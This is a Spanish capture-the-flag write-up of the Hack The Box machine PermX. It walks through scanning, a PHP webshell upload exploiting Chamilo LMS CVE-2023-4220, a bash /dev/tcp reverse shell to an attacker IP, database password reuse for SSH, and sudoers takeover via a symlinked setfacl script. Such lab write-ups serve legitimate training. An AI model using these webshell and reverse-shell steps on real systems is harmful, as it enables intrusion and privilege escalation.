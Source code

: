 ```yaml
---
title: PermX - Hack The Box
date: 2024-10-05
description: Maquina PermX (Easy) de Hack The Box.
categories:
    - Writeups
    - HTB
tags:
    - Linux
    - HTB
    - CTF
    - Easy
    - Seasonal
media_subpath: /assets/img/commons/permx/
image: permx.png
---
```


## Escaneo

```bash
nmap -p- --open -sS -min-rate 5000 -vvv -n -Pn -oG allPorts 10.10.11.23 -oG allPorts
```

Puertos abiertos: 22 y 80

## Análisis

```bash
nmap -sCV -p22,80 -oN targeted 10.10.11.23 -oN targeted

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
```

El puerto 80 da acceso a la web de http://permx.htb, sin nada destacable.

Whatweb tampoco añade mayor información:
```bash
whatweb http://permx.htb

http://permx.htb [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], Email[permx@htb.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.23], JQuery[3.4.1], Script, Title[eLEARNING]
```

Enumerando con nmap se ven los siguientes directorios sin información relevante:
```bash
nmap --script http-enum -p80 10.10.11.23 -oN webScan
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
|_  /lib/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
```

Enumerando subdominios con wfuzz se ven los siguientes subdominios, del cual se destaca lms:
```bash
wfuzz -c --hl=9 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.permx.htb" http://permx.htb/

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        586 L    2466 W     36182 Ch    "www"
000000477:   200        352 L    940 W      19347 Ch    "lms" 
```

## Explotación

http://lms.permx.htb es un LMS (Learning Management System) en Chamilo. Este LMS es vulnerable al [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220) cuyo exploit está disponible en [GitHub](https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS).

Este exploit se basa en subir una WebShell `'<?php echo system($_GET["cmd"])?>'` al directorio vulnerable `http://permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'` para a continuación establecer una Reverse Shell haciendo uso de la WebShell alojada en el directorio `http://permx.htb/main/inc/lib/javascript/bigupload/files/` pasando por GET la Reverse Shell `'#!/bin/bash\nbash -i >& /dev/tcp/{host}/{port} 0>&1'`

De forma manual, sin usar Exploit, es posible explotar la vulnerabilidad creando un fichero para la WebShell en php:
```bash
echo '<?php echo system($_GET["cmd"]); ?>' > webshell_test.php
```

Subiendola al directorio vulnerable del LMS:
```bash
curl -F "bigUploadFile=@webshell_test.php;filename=webshell_test.php" http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported
The file has successfully been uploaded. 
```

Y estableciendo la Reverse Shell a través de la WebShell:
```bash
bash -c "bash -i >& /dev/tcp/10.10.15.23/443 0>&1"
```

Que, al hacer URL encode queda de la siguiente manera:
```http
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell_test.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.15.23/443 0>%261"
```

Y se gana acceso al sistema como usuario www-data:
```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ whoami
<ilo/main/inc/lib/javascript/bigupload/files$ whoami                     
www-data
```

## Escalada

### User

Listando los ficheros con permisos de root:

```bash
find / -perm -4000 -user root 2>/dev/null

/usr/bin/mount
/usr/bin/sudo
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Nada destacable.

Listando los ficheros con configuración en el directorio de Chamilo se puede ver un configuration.php:

```bash
find . -name \*conf\* 2>/dev/null

...
./app/config/configuration.php
...
```

Este fichero contiene los datos de conexión de la bbdd:
```bash
www-data@permx:/var/www/chamilo$ cat ./app/config/configuration.php | grep db_user
$_configuration['db_user'] = 'chamilo';
www-data@permx:/var/www/chamilo$ cat ./app/config/configuration.php | grep db_password
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

Listando los usuarios de /home/ se puede ver el usuario "mtz" no accesible desde www-data.

Verificando la reutilización de la contraseña de la bbdd por el usuario mtz, se comprueba que es accesible por ssh.

>Username: mtz   
>Password: 03F6lY3uXAP2bkW8   

Al conectarse se obtiene la User Flag.
```bash
ssh mtz@10.10.11.23
```

### Root

Listando los ficheros en los que el usuario mtz tiene permisos se obtiene el script "/opt/acl.sh":
```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Este script usa "setfacl" para cambiar los permisos de cualquier fichero en /home/mtz:
```bash
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

El script no permite hacer Path Traversal ya que refleja la opción `"$target" == *..* ` pero no controla los enlaces simbólicos.

Creando un enlace simbólico del fichero /etc/sudoers en /home/mtz:
```bash
ln -s /etc/sudoers /home/mtz/test
```

Y aplicando el script sobre el enlace simbolico se dan permisos de lectura y escritura sobre /etc/sudoers:
```bash
sudo /opt/acl.sh mtz rw /home/mtz/test
```

Lo que permite añadir el permiso de sudo al usuario mtz y convertirse en root:
```bash
vim /home/mtz/test
...
mtz     ALL=(ALL) ALL
...
```

Como root se tiene acceso a la Root Flag.
